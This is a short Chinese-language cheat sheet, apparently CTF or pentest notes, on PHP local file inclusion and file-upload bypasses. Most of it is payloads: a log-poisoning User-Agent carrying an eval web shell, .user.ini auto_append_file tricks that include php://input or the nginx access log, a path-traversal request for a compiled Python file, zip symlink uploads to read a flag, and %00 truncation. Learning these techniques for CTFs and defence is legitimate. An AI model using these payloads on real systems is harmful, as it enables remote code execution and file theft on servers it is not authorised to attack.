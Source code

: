 [实战 | 文件上传漏洞之最全代码检测绕过总结](https://mp.weixin.qq.com/s/6ArBgNYpsQH7WkaaJY6GfQ)

# LFI/文件包含

| Name                                                   | payload                                                    |     |
| ------------------------------------------------------ | ---------------------------------------------------------- | --- |
| `?file=index` 或 `?file=index.php` 有可能需要去掉 .php |                                                            |     |
| PHP_INCLUDE_TO_SHELL_CHAR_DICT                         | 文件包含即命令执行                                         |     |
| glob://                                                |                                                            |     |
| 日志包含                                               | 1.抓包修改 Agent 访问 2.包含日志 /var/log/nginx/access.log |
| 使用 [.user.ini](#userini) 进行包含                    | auto_append_file=2.jpg                                     |

## .user.ini

相当于 `include('xx.txt')`

| Desc           | .user.ini                                    | payload                                                                                |
| -------------- | -------------------------------------------- | -------------------------------------------------------------------------------------- |
| 包含 post 数据 | `auto_append_file=php://input`               | url:`index.php` <br>body: `<?php phpinfo();?>`                                         |
| 日志包含       | `auto_append_file=/var/log/nginx/access.log` | url:`index.php` <br> body: `1=phpinfo();`<br>usUser-Agent: `<?php eval($_POST[1]);?> ` |

# Python

```sh
/download?file=../../../app/__pycache__/part.cpython-311.pyc
```

# 文件上传

- 压缩包软链接，传到/tmp/data 下, ，这个软链接指向 flag，即可获取 flag
- %00 截断 php 版本小于 5.3.4
